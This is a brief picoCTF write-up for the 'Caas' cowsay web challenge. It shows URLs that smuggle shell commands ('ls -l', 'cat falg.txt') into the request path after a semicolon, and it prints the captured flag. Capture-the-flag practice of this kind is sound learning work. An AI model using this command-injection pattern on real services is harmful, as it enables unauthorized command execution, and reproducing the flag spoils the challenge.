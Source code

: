 # Picoctf

## Caas

### Solution

I started by going through both the Caas Websites [[1]](https://caas.mars.picoctf.net/) [[2]](https://caas.mars.picoctf.net/cowsay/message). And found nothing special in them. I downloaded the index.js file and found out that it is using the HTTP GET METHOD. After finding this out. I simply put another command 'ls' to list all the files and then opened falg.txt using cat 'cat falg.txt.

```
https://caas.mars.picoctf.net/cowsay/yoo
https://caas.mars.picoctf.net/cowsay/yoo;ls -l
https://caas.mars.picoctf.net/cowsay/yoo;cat%20falg.txt
```

flag: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
